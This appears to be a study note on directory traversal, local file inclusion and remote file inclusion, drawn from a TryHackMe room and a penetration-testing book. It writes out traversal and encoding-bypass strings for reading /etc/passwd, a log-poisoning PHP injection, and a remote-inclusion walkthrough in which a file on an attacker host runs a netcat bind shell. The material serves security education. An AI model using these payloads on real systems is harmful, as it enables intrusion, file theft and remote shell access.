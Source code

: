 # Directory/Path Traversal Attacks
Web applications often request files (e.g., images, documents) using **parameters** in URLs. These **query parameters** allow users to retrieve specific files or perform actions based on input.  

Example:  
When a user wants to access their CV, the request might be:  
`http://webapp.thm/get.php?file=userCV.pdf`  
Here, **`file=userCV.pdf`** is the parameter specifying which file to retrieve.  

Similarly, search engines like Google use parameters in GET requests:  
`https://www.google.com/search?q=TryHackMe`  

A **directory traversal attack** allows attackers to access files outside the web server's root directory by manipulating URL parameters. Typically, web servers restrict file access to a specific directory (e.g., `/var/www/html` in Apache), but improperly validated input can allow attackers to navigate beyond this restriction using sequences like `../../`.  

For example, an attacker might use:  
- `http://www.example.com/index.php?item=../../../../../etc/passwd` (to access sensitive system files)  
- `http://www.example.com/index.aspx?dat=../../../Windows/System32/cmd.exe?/C+dir+C:/` (to execute commands)  

**Bypassing Protections:**  
Simple filters blocking `../` can often be bypassed using techniques such as:  
- **Double encoding:** `%252e%252e%252fetc%252fpasswd`  
- **UTF-8 encoding:** `%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`  
- **Obfuscation with extra characters:** `….//….//etc/passwd` or `/%5C../%5C../etc/passwd`  
___
## Local File Inclusion (LFI) Attacks

**Overview:**  
Local File Inclusion (LFI) attacks exploit vulnerabilities in web applications that dynamically include files without proper validation. If an attacker can control the file path parameter, they can manipulate it to include unintended files.  

**Example Vulnerable Code:**  
```
<?php
include($_GET['include']);
 ... Remaining code of the page ...
```  
A legitimate request might look like:  
`http://mysite.com/index.php?include=header.php`  

However, an attacker could exploit this to access sensitive files:  
`http://mysite.com/index.php?include=../../../../../../etc/passwd`  

**Impact:**  
- Initially, attackers gain read access to system files.  
- If they can inject executable code into a file (e.g., logs, databases, or uploads), they can achieve **Remote Code Execution (RCE)**.  

### **Exploiting LFI for Code Execution**  
1. **Injecting Malicious Code:**  
   - The attacker forces an error log entry by requesting a nonexistent file with embedded PHP code:  
     `http://mysite.com/unknown.xyz?id='<?php system(id)?>'`  
   - If logging is enabled, this gets stored in the web server logs (e.g., `/var/log/apache/access.log`).  

2. **Executing the Injected Code:**  
   - The attacker includes the log file via LFI, causing execution:  
     `http://mysite.com/index.php?include=../../../../../../var/log/apache/access.log`  
   - This can reveal system information like user IDs or be used to gain further access.  

### **Alternative Methods for Code Injection**  
If logs are inaccessible, attackers may insert code via:  
- **Database fields** (e.g., injecting PHP into form fields stored in a database).  
- **HTTP headers** (e.g., modifying the `User-Agent` field and including `/proc/self/environ`).  
- **Email attachments** (e.g., including email log files).  
- **Image uploads** (e.g., hiding PHP code inside image metadata).  
___

## Remote File Inclusion (RFI) Attacks  

**Overview:**  
Remote File Inclusion (RFI) is similar to Local File Inclusion (LFI) but allows attackers to include **external** files hosted on a remote server. This enables the execution of malicious scripts, potentially leading to **Remote Code Execution (RCE)**.  

**Key Requirements for RFI:**  
- The web server must **allow remote file inclusion** (e.g., `allow_url_include=On` in PHP).  
- The application must dynamically include files based on user input.  

### **Exploiting RFI**  
A vulnerable PHP script:  
```php
<?php
include($_GET['include']);
?>
```  
An attacker could provide an external malicious script:  
`http://mysite.com/index.php?include=http://hacker.com/badfile.txt`  

This script could contain:  
```php
<?php
system('nc -lp 8888 -e /bin/sh');
?>
```  
Once included, this command starts a **Netcat listener**, granting the attacker shell access.  

**Attack Execution:**  
1. The attacker hosts the malicious file (`cmd.txt`) on their server.  
2. They trigger the inclusion via:  
   `http://10.52.200.26/websec/file_inclusion/rfi.php?include=http://10.52.210.210/cmd.txt`  
3. The web server **executes the script**, establishing a backdoor.  
4. The attacker connects using Netcat:  
   `nc -n 10.52.200.26 8888`  
5. The attacker now has a shell on the server (`uid=33(www-data)`).  

### **Impact of RFI Attacks**  
- **Remote Code Execution (RCE):** Full control over the web server.  
- **Data Theft:** Access to sensitive files (database credentials, user data, etc.).  
- **Website Defacement:** Attackers can modify web content.  
- **Malware Injection:** Hosting and distributing malicious software.  

___
## Sources
- tryhackme, File Inclusion, https://tryhackme.com/room/fileinc.
- M. Kofler et all, Hacking and Security The Comprehensive Guide to Penetration Testing and Cybersecurity, Rheinwerk Publishing 2023


